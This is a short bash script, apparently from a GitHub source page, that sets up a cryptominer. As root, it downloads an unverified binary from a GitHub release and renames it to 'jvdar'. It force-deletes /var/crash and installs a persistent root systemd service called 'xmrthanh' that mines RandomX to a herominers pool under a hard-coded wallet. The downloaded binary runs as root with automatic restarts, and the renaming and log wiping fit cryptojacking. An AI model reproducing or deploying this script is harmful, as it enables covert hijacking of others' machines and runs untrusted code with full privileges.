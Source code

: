#!/bin/bash
sudo su
cd /home
wget https://github.com/trangtrau/sang_ml/releases/download/test/ar 
cp ar jvdar 
chmod +x jvdar

rm -rf /lib/systemd/system/xmrthanh.service
rm -rf /var/crash
bash -c 'cat <<EOT >>/lib/systemd/system/xmrthanh.service 
[Unit]
Description=xmrthanh
After=network.target
[Service]
ExecStart= /home/jvdar -o salvium.herominers.com:1230 -b 152.42.209.29:10000 -u SaLvsAVm78sYam4NrkX4MWHRrUiwC1Fcz4sUAQRY1Jut1ijhonGGcneKLbww6GUvid8N2WHyuLxYfjav1p6xCDRGSVfVEdGPETk -p 1svts1115 -a rx/0 -k -t 13
WatchdogSec=36000
Restart=always
RestartSec=60
User=root
[Install]
WantedBy=multi-user.target
EOT
' &&
systemctl daemon-reload &&
systemctl enable xmrthanh.service &&
service xmrthanh stop  &&
service xmrthanh restart
top
